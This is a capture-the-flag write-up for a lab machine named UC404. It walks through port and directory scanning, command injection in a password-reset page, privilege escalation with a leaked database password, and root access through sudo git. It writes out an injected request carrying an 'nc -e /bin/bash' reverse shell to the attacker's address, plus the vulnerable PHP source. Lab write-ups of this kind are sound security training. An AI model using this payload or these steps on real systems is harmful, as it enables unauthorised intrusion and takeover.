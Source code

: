 # UC404

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:34 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41473/tcp open  unknown
45259/tcp open  unknown
49415/tcp open  unknown
54505/tcp open  unknown
```

NFS is open, which might have stuff we can mount on.

### Rabbit Holes

NFS had nothing:

```
$ showmount -e 192.168.202.109      
Export list for 192.168.202.109:
```

Port 80 shows some dashboard that looks static:

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

A detailed `nmap` scan reveals that there's a `.git` repository present:

```
$ sudo nmap -p 80 -sC -sV --min-rate 3000 192.168.202.109
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:37 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-git: 
|   192.168.202.109:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/ColorlibHQ/AdminLTE.git
|_    Project type: Ruby on Rails web application (guessed from .gitignore)
|_http-title: AdminLTE 3 | Dashboard
```

However, there's nothing interesting within it.&#x20;

### Web Enumeration --> Cmd Injection

I ran a `gobuster` scan on port 80 and found one interesting directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.202.109 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.202.109
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/06 21:37:30 Starting gobuster in directory enumeration mode
===============================================================
/pages                (Status: 301) [Size: 318] [--> http://192.168.202.109/pages/]
/demo                 (Status: 301) [Size: 317] [--> http://192.168.202.109/demo/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.202.109/plugins/]
/docs                 (Status: 301) [Size: 317] [--> http://192.168.202.109/docs/]
/db                   (Status: 301) [Size: 315] [--> http://192.168.202.109/db/]
/dist                 (Status: 301) [Size: 317] [--> http://192.168.202.109/dist/]
/build                (Status: 301) [Size: 318] [--> http://192.168.202.109/build/]
/LICENSE              (Status: 200) [Size: 1082]
/under_construction   (Status: 301) [Size: 331] [--> http://192.168.202.109/under_construction/]
```

The `under_construction` part looked the most promising. It just brought us to a login page:

<figure><img src="../../../.gitbook/assets/image (1) (15).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work with this one. I was a bit stuck here, but eventually decided to check the page source of all pages. There was this interesting bit within the source for the 'Forgot Password' page:

<figure><img src="../../../.gitbook/assets/image (3) (1) (11).png" alt=""><figcaption></figcaption></figure>

Blacklisting some characters means that there is a potential injection point here. I was curious about that '1' and what it was reflecting. I tested this a bit by sending POST requests, but it didn't really work.&#x20;

I thought for a while, and decided to change it to GET requests instead of POST, and it actually worked!

<figure><img src="../../../.gitbook/assets/image (5) (2) (6).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell by sending this request:

```http
GET /under_construction/forgot.php?email=%0a+nc+-e+/bin/bash+192.168.45.179+21 HTTP/1.1
Host: 192.168.202.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.202.109
Connection: close
Referer: http://192.168.202.109/under_construction/forgot.php
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

Super CTF-ish initial access. We can read the source code to see how it works:

```php
<?php
//system("php sendmail.php " . $_GET['email'], $output); print_r($output)
$badUrl = $_GET['email'];
$goodUrl = str_replace(';', '?', $badUrl);
system("php sendmail.php " . $goodUrl, $output); print_r($output);
?>
```

## Privilege Escalation

### Brian Creds

I ran a `linpeas.sh` scan to enumerate for me. It picked up on this:

```
[+] Backup folders
drwxr-xr-x 2 root root 4096 Jan 27 16:07 /var/backups                                        
total 16
-rw-r--r-- 1 root     root     10832 Oct 27  2020 apt.extended_states.0
-rw-r--r-- 1 www-data www-data   787 Sep 18  2020 sendmail.php.bak
```

We can read it to find more credentials:

{% code overflow="wrap" %}
```php
www-data@UC404:/tmp$ cat /var/backups/sendmail.php.bak 
<?php                                                                                        
if(isset($_POST['submit']))                                                                  
{ 
$connect=mysql_connect("localhost","brian","BrianIsOnTheAir789") or die("Could not connect to database");
```
{% endcode %}

We can then `su` to `brian`:

<figure><img src="../../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Git

Since we had the password, we can check `sudo` privileges:

```
brian@UC404:/tmp$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
```

We can follow GTFOBins to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (8) (11).png" alt=""><figcaption></figcaption></figure>

Rooted!
